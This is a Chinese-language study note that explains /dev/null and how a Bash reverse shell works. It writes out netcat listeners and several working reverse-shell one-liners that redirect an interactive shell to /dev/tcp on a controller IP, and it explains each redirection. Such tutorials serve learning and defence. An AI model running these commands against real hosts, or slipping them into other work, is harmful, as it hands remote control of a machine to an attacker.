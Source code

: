 ### /dev/null
特殊文件, 写入的任何东西都会被清空
- 把STDERR重定向到`/dev/null`, 自动删除错误信息
	- `whoami 2> /dev/null`
- 快速移除文件中的数据而不用删除文件
	- `cat /dev/null > test`

## Bash反弹Shell原理
*被控端*主动向*控制端*发起连接请求, 通常被控端由于防火墙限制, 权限不足, 端口被占用等问题, 导致被控端不能正常接收发送过来的数据包
```shell
# 控制端
nc -lvvp 7777

# 被控端
bash -i >& /dev/tcp/192.168.1.10/7777 0>&1
```
- `bash -i` 打开一个交互式的bash shell.   [[Linux中Shell的几种类型|What is shell?]]
- `/dev/tcp/IP/PORT` /dev/tcp是Linux中的一个特殊设备文件(一切解文件), 实际不存在, bash用来实现网络请求的接口, 打开即发起一个socket连接, 读写即在这个socket连接中传输数据

### 通过socket连接通信
- 向`/dev/tcp/IP/PORT`写入内容
```shell
nc -lvvp 6666
echo hello > /dev/tcp/192.168.1.101/6666
```
- 从`/dev/tcp/IP/PORT`读取内容
```shell
nc -lvvp 6666
cat < /dev/tcp/192.168.1.111/6666
```

### 交互式shell
实现控制端和被控端的交互![[Pasted image 20230810005003.png]]![[Pasted image 20230810005019.png]]
### 把被控端的交互shell输出重定向到控制端 
```shell
bash -i > /dev/tcp/192.168.1.101/6666

#获取bash进程ID
ps -elf|grep "bash -i"
# 查看进程文件描述符
ll /proc/2609/fd
```

### 把控制端的输入重定向到被控端的交互式shell
由目标传递的数据作为交互式shell的输入, 命令执行后的结果输出到目标
```shell
bash -i > /dev/tcp/192.168.1.101/6666 0>&1
```

### Bash反弹Shell
```shell
bash -i &> /dev/tcp/192.168.1.101/6666 0>&1
# 等于
bash -i > /dev/tcp/192.168.1.101/6666 0>&1 2>&1
```
`>&`, `&>` 混合输出, 即将标准输出, 错误输出全都重定向到一个位置
`0>&1` 将标准输入的读取对象设置为标准输出的输出对象, 即将标准输入也重定向到目标位置

